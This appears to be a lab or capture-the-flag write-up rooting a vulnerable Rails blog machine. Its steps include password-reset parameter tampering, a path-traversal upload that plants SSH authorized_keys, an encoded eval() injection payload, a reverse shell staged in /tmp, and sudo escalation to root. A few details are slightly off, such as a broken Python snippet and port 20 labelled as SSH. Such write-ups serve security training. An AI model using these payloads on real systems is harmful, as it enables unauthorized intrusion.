

> ssh,nfs

# Ports

- **20** : SSH
- **80** : nginx 1.10.3

### Port 111, 22 are used for exploiting

# 80

1. ROR application is running, which is confirmed from a blog by coderguy about passwords resets.
2. `gobuster` scan gave relevant pages: /login, /register, /admin
3. Two possible site administrators: `dragon`, `king`. From the quotes on the start of the website and a blog by king welcoming users.
4. `dave`, `coolguy89`, `coderguy` and some other users in the blog.
5. Trying /login form with default credentials didn't log us in for any user.
6. The password reset blog says , `coderguy` is working on `password_resets` resource of the ROR framework for resetting passwords. Researching about what the resource of ROR tells us that there may be a possible path with /password_resets. [RoR documentation about `resource`](https://api.rubyonrails.org/v7.0.2.2/classes/ActionDispatch/Routing/Mapper/Resources.html#method-i-resources)
7. As shown in the documentation we can try /password_resets/new
8. This shows the page for resetting passwords with username.

# 22

1. SSH version OpenSSH 7.2p2
2. Username enumeration vulnerability exists for this version. We can try this route if nothing elese works and try to bruteforce a login. Usually there is no need for this.

# EXPLOITATION

We can now reset password of users by starting with admins themselves. `dragon` , `dave`, `King`, `coderguy` all failed because only regular users were allowed to reset password this way.

So we can try with `onlyme` user and we are provided with a link to reset password, which produces a link like this
`http://10.0.2.23/password_resets/edit.VNHOEboqplOck8bCtmdi-g?name=onlyme`

We can try changing name parameter to some admin level user, like `dragon` and it worked.
In dragon's we could see some other blogs, indicating there are mechanisms to restrict blog visibility. There is also file upload functionality for putting up avatars, however it says that the functionality is disabled.
Dragons inbox contain message from `King` about his password. From dragon's blog we can see that `King` is the top most administrator.

So we login using King's credentials and see preferences for enabling and disabling file upload. There is also a blog by `coderguy` restricted to King for viewing, which says about a possible `rails` user in the system and also a `coderguy` user in the system.

For exploiting file upload we try to upload a ruby reverse shell in .erb and hope to execute it by changing the profile pic to the uploaded file in the settings of the user. But it didn't work.
While selecting the avatar file drop down we notice the path of the uploaded file. We can check for directory traversal and hopefully place something outside the website root.

We are able to do that by uploading an image file and naming the file as .`../../../../../../home/rails/image`

We can get access to the ssh machine by using this technique to add our public key as `authorized_keys` file in .ssh folder of rails user.

1. Copy the public key from our .ssh/id_rsa.pub file. If you don't have the file generate yours using `ssh-keygen`
2. Save the public public inside a `ssh.txt` file to be uploaded.
3. While uploading , set the name for file as `../../../../../../../home/rails/authorized_keys`
4. ssh from our machine `ssh -i .ssh/id_rsa rails@10.10.10.10`

# Actions in the low privilege shell

1. We find users `coderguy`, `dave`, `king`, `dragon`
2. Nothing interesting inside rails, coderguy, dave, dragon home directories as we have the permissions to view inside them.
3. Inside the king's home directory we find a calc.js file.
4. We transfer it to our machine to check its working. In our machine we run the file by `node calc.js` and it runs on localhost:8888
5. `calc.js` calculates the input given to it using the `eval()` function of javascript which itself can cause unintended code executions , if given a malicious input.
6. `calc.js` urlencodes special characters which causes it to crash if we provide a query like `calc?sum=console.log('hello')`.
7. To overcome this problem we can convert our payloads to ascii values and then convert it back to string using javascript.
   - The python to code to achieve this:
     ascii = ''; text = "console.log('hello')"
     for ch in text:
     ascii = ascii + f"{ord(ch)"} + ','
     print(ascii)
   - Javascript function for converting it back: `String.fromCharCode(101,23,22)`
8. To make it work we need to put it inside an eval() expression: So final code looks like this `eval(String.fromCharCode(101,23,22))`

   - The eval() inside calc.js will execute the eval(String.fromCharCode()) we have given which first convert ascii back to string then and then eval() the string to produce output.

9. In the remote machine we see that the port 8888 is open to localhost. So we use port forwarding using ssh to access the port from our machine
   `ssh -L 7777:localhost:8888 -i .ssh/id_rsa rails@10.10.10.10`
   Now we can view it on localhost:7777 on our machine
10. I tried a nodejs reverse shell on github and it didn't seem to be working. So I looked for alternative options. In the code of calc.js and `exec()` function was used to execute a system command `ping`. We can try to use that to execute a reverse shell script.
11. We send a shell script containing the [python one liner](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell to remote machine and placed it inside the /tmp folder.
12. The command to be executed is `exec("sh /tmp/temppyrev.sh")`. Ascii encoding this gives 101,120,101,99,40,34,115,104,32,47,116,109,112,47,116,101,109,112,112,121,114,101,118,46,115,104,34,41
13. So our final payload becomes:
    `calc?sum=eval(String.fromCharCode(101,120,101,99,40,34,115,104,32,47,116,109,112,47,116,101,109,112,112,121,114,101,118,46,115,104,34,41))`

14. We get a shell as `king` user and we try `sudo -l` and output shows that king has NOPASSWD for all operations.
15. Simply `sudo /bin/bash -i`

We are root
